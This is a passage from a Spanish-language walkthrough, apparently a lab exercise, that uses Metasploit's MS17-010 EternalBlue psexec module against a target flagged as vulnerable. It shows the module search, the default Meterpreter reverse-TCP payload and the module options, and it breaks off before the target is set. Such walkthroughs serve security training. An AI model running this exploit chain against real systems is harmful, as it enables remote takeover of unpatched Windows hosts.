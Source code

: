 Ahora, podemos ver en los resultados de la verificación que nuestro objetivo es probablemente vulnerable a EternalBlue. Configuraremos el exploit y el payload ahora, y luego lo intentaremos.

3. Select Exploit & Payload, then Deliver

### Choose & Configure Our Exploit & Payload

```r
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Para este caso, revisamos los módulos de exploit de MSF utilizando la función de búsqueda para buscar un exploit que coincidiera con EternalBlue. La lista anterior fue el resultado. Dado que he tenido más suerte con la versión `psexec` de este exploit, probaremos esa primero. Elijámosla y continuemos con la configuración.

### Configure The Exploit & Payload

```r
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
```